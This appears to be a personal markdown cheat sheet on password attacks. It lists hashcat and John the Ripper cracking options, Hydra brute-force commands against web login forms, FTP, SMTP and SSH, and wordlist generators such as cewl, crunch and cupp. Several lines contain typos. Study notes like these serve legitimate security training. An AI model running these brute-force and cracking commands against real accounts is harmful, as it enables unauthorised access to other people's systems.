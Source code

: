 - [Passwords](#passwords)
- [Basics](#basics)
- [Hashcat](#hashcat)
- [John](#john)
- [Hydra](#hydra)
- [Creating Wordlists](#creating-wordlists)

# Passwords

# Basics
- cracking: from hash
- guessing: from dictionary (loud)
- dump = leaks of passwords/hash
- Combine
  - cat file1 file2 > file3
  - sort fil3 | uniq u > cleaned

# Hashcat
- Identify hash
  - hashid
  - hashidentifier

- hashcat
  - a 0 = dictionary attack
    - dictionary = list | brute-force = guessing
  - -m 0 = type of hash
  - -a 3 = brute force method
  - ?d = use digit for generating
  - TOTAL_CHARACTERS = generate list
  
# John
- Using rules
  - john --wordlist=existing_list --rules=pick_one --stdout
  - --format=ENCRYPTION
  - adding rule
    - conf file: [rule_name] Az"[0-9]" ^[!@#$]

# Hydra
- hydra -l username -P wordlist.txt server service
- hydra -l username -P wordlist.txt service://server
- -d = debug
- -v = verbose
- -V = show attempts
  - vV = more info
- -f = terminate if found
- -s = port to connect
- -t = number threadlos

- web
  - hydra -l USERNAME -P wordlist.xt server *request* **"/[inside_request]:username=^USER^&password=^PASS^:F=incorrect"** -v
  - hydra -l USERNAME -P wordlist.xt server *request* **"/[request]:[body_request]"** -vV -f
  - hydra -l USERNAME -P wordlist.xt server *request* **"/[request]:username=^USER^&password=^PASS^:F=incorrect"** -v
    - Request: HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy
    - IP/URL http-get-form | http-post-form "/login-get/index.php:[BODY_CONTENT]&username=^USER^&PASSWORD=^PASS:S=logout.php" -f
    - for post: whole POST BODY
      - S= [message_for_success]
      - F= [message_for_failed]
      - -V Verbose
      - -f = stop attack after finding

- FTP
  - hydra -l [USERNAME] -P password.lst ftp://IP
    - -L = list of usernames

- SMPT
  - -l email@address.com -P [Password_List] smtp://IP -v

- SSH
  - -L [USER_LIST] -P [PASS_LIST] ssh://IP -v

# Creating Wordlists
- cewl URL
  - -w = output
  - -d 5 = depth
  - -m 5 = minimum
  
- username_gennerator.py

- crunch
  - combination of characters
  - crunch 2 2 123456abcd -o output
  - -t startpassword[symbol1][symbol2]
    - @ lower case
    - , upercase
    - % numeric
    - ^ special

- cupp
  - based on information of the target, birthdate, pet, etc
  - https://github.com/Mebus/cupp.git